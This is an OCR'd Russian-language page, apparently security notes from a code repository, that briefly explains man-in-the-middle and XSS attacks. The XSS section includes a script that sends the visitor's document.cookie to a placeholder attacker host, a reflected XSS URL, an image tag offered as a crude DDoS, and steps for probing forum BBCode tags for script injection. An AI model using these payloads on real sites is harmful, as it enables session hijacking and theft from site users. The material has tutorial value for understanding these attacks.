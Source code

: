 ### Main-In-The-Middle

Атака посредника или атака Man in the middle (MITM) — вид атаки в криптографии, когда злоумышленник перехватывает и
подменяет сообщения, которыми обмениваются корреспонденты, причём ни один из последних не догадывается о его присутствии
в канале. Используется для прослушки или подмены передаваемых сообщений.

### XSS

XSS атаки – представляет собой уязвимость web-приложений, которая позволяет внедрение вредоносного кода в WEB-страницы,
просматриваемые другими пользователями. XSS атаки - это атаки не на сам сайт, а на пользователей сайта. Чаще всего XSS
используют для кражи Cookies, т.к. в них иногда хранят какую-нибудь ценную информацию (иногда даже логин и пароль (или
его хэш) пользователя), но самой опасной является кража активной сессии.

Делается это с помощью кода:

```javascript
<script>
    var іmg = new Image();
    іmg.srс = 'http://site/xss.php?' + document.cookie;
</script>
```

Так же подобной механикой можно добиться простой DDoS атаки на некоторый сайт:

```html
<img alt="simple image" src="http://site.com/">
```

Существует два типа XSS уязвимостей — пассивная и активная.

* Пассивные - это XSS, которые требуют от жертвы непосредственного участия. Например, заставить пользователя перейти по
  ссылке: `http://www.site.com/page.php?var=<script>document.cookie</script>`.
* Активные - это XSS, которые, не требуют никаких дополнительных действий со стороны жертвы – ей достаточно лишь открыть
  страницу с вашим XSS и js выполнится автоматически.

К примеру просмотрим форум на наличие использования тегов [font],[img],[url] и попытаться вставить в них скрипт или
комбинировать их:

```html
[img]https://...ru/1.jpg[/img]
```

Если выходит крестик, значит img используется и мы его подобрали. Если крестика нет, а висит всего надпись, то
попробуйте еще так:

```html
[img src=https://...ru/1.jpg]
```
